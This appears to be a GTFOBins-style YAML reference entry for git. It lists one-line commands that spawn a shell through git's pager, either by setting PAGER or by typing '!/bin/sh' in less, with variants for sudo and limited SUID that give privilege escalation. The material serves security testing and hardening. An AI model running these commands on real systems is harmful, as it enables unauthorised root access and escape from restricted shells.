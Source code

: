 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply. Several capabilities might be dropped in the child process using this method.
      code: |
        sudo git help config
        !/bin/sh
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

